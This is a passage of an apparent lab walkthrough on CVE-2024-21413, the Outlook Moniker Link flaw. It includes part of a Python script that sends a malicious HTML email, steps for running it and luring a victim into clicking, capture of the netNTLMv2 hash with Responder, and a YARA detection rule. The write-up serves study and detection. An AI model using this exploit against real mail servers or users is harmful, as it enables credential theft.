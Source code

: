 ```python
msg["From"] = "attacker"
msg["To"] = receiver_email
msg.attach(MIMEText(html_content, 'html'))

server = smtplib.SMTP('MACHINE_IP', 25)
server.login(sender_email, password)
server.sendmail(sender_email, [receiver_email], msg.as_string())
server.quit()
```

3. **Configure Script Parameters**
   - Replace `ATTACKER_IP` with your AttackBox IP.
   - Replace `MACHINE_IP` with the IP of the vulnerable mail server.

4. **Run the script** to deliver the malicious email:
   ```bash
   python3 exploit.py
   ```

5. **On Victim Machine**
   - Open Outlook.
   - Find and click the "Click me" hyperlink in the received email.

6. **Observe Responder Output**
   - If successful, the **netNTLMv2 hash** will appear in your terminal.

---

## 🧪 Task 4: Detection

### 🔍 YARA Rule

```yara
rule EXPL_CVE_2024_21413_Microsoft_Outlook_RCE_Feb24 {
   meta:
      description = "Detects Moniker Link exploitation for CVE-2024-21413"
      author = "Florian Roth"
      date = "2024-02-17"

   strings:
      $filelink = /file:\/\/[^"']+!/

   condition:
      filesize < 1000KB and $filelink
}
```

### 📡 Network Detection

### 🧪 Wireshark Packet Capture

Below is a screenshot of Wireshark showing the SMB authentication attempt and the victim’s NTLMv2 hash being sent to the attacker:
